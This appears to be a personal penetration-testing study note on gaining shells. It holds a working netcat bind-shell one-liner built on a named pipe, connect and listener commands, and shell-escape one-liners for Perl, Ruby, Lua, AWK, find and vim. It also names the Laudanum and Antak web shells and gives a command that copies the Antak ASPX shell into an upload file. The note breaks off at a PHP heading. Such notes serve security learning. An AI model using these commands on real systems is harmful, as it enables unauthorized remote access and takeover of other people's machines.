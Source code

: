 https://www.revshells.com/
# #Bind Shell
![[BindShell.png]]
Target system has a listener and awaits a connection from the attacker.
### Bind Shell with NC 
```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 1234 > /tmp/f
```
```shell
nc -nv <ip> <port>
```

# #Reverse Shell
Attacker 
```shell
sudo nc -lvnp 443
```
# Interactive Shells
```shell
/bin/sh -i
```
### Perl
```shell
perl —e 'exec "/bin/sh";'
```
Run from script:
```shell
perl: exec "/bin/sh";
```
### Ruby 
```shell
ruby: exec "/bin/sh"
```
### Lua
```shell
lua: os.execute('/bin/sh')
```
### AWK
```shell
awk 'BEGIN {system("/bin/sh")}'
```
### Find
```shell
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

```shell
find . -exec /bin/sh \; -quit
```
### Vim
```shell
vim -c ':!/bin/sh'
```

```vim
vim
:set shell=/bin/sh
:shell
```

# Web Shells
#### [Laudanum](https://github.com/jbarcia/Web-Shells/tree/master/laudanum)
	Ready made files that can be injected 
#### Antak
###### ASPX = Active Server Page Extended (ASPX) 
Built on ASP.NET framework.
Web form pages generated for users to input dat
##### Antak web shell
Web shell built in ASP.NET that gives powershell commands


```shell
ls /usr/share/nishang/Antak-WebShell
```

```shell
 cp /usr/share/nishang/Antak-WebShell/antak.aspx /home/administrator/Upload.aspx
```
Change username and password?

#### PHP
